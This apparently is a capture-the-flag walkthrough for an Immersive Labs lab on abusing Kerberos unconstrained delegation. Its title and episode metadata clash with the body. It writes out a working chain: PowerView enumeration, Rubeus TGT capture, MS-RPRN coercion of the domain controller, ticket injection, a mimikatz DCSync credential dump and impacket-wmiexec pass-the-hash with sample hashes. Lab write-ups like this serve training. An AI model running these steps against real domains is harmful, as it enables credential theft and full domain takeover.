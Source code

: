 ```yaml
---
date: 2025-03-17
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.9 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Kerberos Ep. 9 – Unconstraine - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep. 9 – Unconstrained Delegation


![image1](../resources/7f2555936ca4415aba773fa7bcc11a88.png)

![image2](../resources/5336fb7734cf44009120496934609a5d.png)

Use following command in powershell.exe to dot source the script first:

```bash
. .\Powerview_dev.ps1
```
**<u>Dot sourcing</u>**

The dot sourcing feature lets you run a script in the current scope instead of in the script scope. When you run a script that is dot sourced, the commands in the script run as though you had typed them at the command prompt

- On workstation-01 run Powerview:

```bash
. .\Powerview_dev.ps1

```

![image3](../resources/8ebb39d0918648d3b86f734d76c7d861.png)

- Enumerating for unconstrained delegation:

```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image4](../resources/e7519f27495043109e63411a9c3ad29b.png)


![image5](../resources/bfb5d5b0d2a440a481f774ec27bfa45f.png)

<u>Exploiting unconstrained delegation:</u>
Now that you have access to a host with an unconstrained delegation set, you can force a privileged user to connect to the system. To do this, you'll need to use the MS-RPRN tool (aka spoolsample). This tool will force a DC account to connect to our hostname; in this case, Workstation-02

- Open an elevated command prompt and monitor for TGT **(Open in CMD not PS)**:

```bash
Rubeus.exe monitor /interval:1

```

![image6](../resources/bfc9a81bb20d4de08eeaa2e918811b97.png)

- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe

.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image7](../resources/680b6e010f0c4884b4948f09b0450e55.png)


![image8](../resources/ec4ff9197f54477684e68afcef95ed57.png)


![image9](../resources/53eb6570d2ea485591806990b9bd70e5.png)

- Since the host has an unconstrained delegation feature enabled, you can obtain a valid TGT to impersonate a DC account

- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"[\n\t\s]*", "", f))'

```
- Copy the output and paste into the command (on Windows):

(Convert from Base64 and saves it in **DC.kirbi**)

```powershell
[IO.File]::WriteAllBytes("C:\Users\m.oh\Desktop\Tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```

![image10](../resources/e1433203f58b43c893bef66332ce4b21.png)

- Load the ticket into memory:

```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```

![image11](../resources/6c20fb63571042a6a69ed2f1ec95cecb.png)

- Check that it has been loaded in successfully:

```bash
klist

```

![image12](../resources/aa9591288001480688632c98b75ddc84.png)


![image13](../resources/aba65a0a932c4f859628f57061753344.png)


![image14](../resources/71f94ac080a24844b1622f1374fe491c.png)

- Open mimikatz:

```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image15](../resources/68b77d027e6d4eb9bd58e5dd8f0a56e1.png)

- Use wmiexec to gain access to the DC:

```bash
impacket-wmiexec [DOMAIN]/[USERNAME]@[TARGET] -hashes [LM-HASH]:[NT-HASH] 

impacket-wmiexec krbtown/a.belridge@10.102.110.227 -hashes 5bc77749d18b5076452c01b71eda19d0:a3352be00f83a3a7f86a8825e49d5011

```

![image16](../resources/654fc3178ff04959a0716fbc18c27eff.png)


![image17](../resources/1e43f17df0a24df894fe4b7ac6ddfd50.png)


![image18](../resources/e2146712bf5d408abb70a7acc7c1da8f.png)
